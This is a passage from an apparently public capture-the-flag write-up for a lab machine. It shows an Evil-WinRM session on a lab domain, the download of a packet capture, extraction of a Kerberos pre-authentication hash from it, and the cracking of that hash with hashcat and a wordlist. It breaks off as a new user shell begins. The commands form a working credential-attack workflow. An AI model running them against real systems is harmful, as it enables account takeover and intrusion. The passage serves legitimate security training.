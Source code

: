 ```powershell
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Sara.B> type Documents\WS-01\Description.txt
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
*Evil-WinRM* PS C:\Users\Sara.B> download Documents\WS-01\WS-01_PktMon.pcap
```
{: .nolineno }

## 8️⃣ PCAP Analysis and Kerberos Hash Extraction

**Tools**: Wireshark for analysis; [Krb5RoastParser](https://github.com/jalvarezz13/Krb5RoastParser).

**Content**:

Now for analysis to this  `WS-01_PktMon.pcap` I used wireshark and turns out this pcap file contains kerberos data so for extraction I used another tool.

![](Pasted%20image%2020250914113357.png)
_Wireshark output for kerberos protocol data_

For extracting Kerberos tickets I used this tool ▶️ [Krb5RoastParser](https://github.com/jalvarezz13/Krb5RoastParser)

```bash
└─$ python3 krb5_roast_parser.py ../WS-01_PktMon.pcap as_req
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b********e4f3951a50bc083c9bc0f16f0f586181c9d4ceda**52f0
```
{: .nolineno }

```bash
└─$ hashcat -m 19900 -a 0 hashes_as_req.txt /usr/share/wordlists/rockyou.txt --show
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b********e4f3951a50bc083c9bc0f16f0f586181c9d4ceda**52f0:!*******x
```
{: .nolineno }

## 9️⃣ User Shell as <b><span style="color:rgb(219, 0, 0)">Lion.SK</span></b>


**Tools**: Evil-WinRM for access; BloodHound for AD analysis.

**Content**:

I got the password for user <b><span style="color:rgb(219, 0, 0)">Lion.SK</span></b>
 🔻
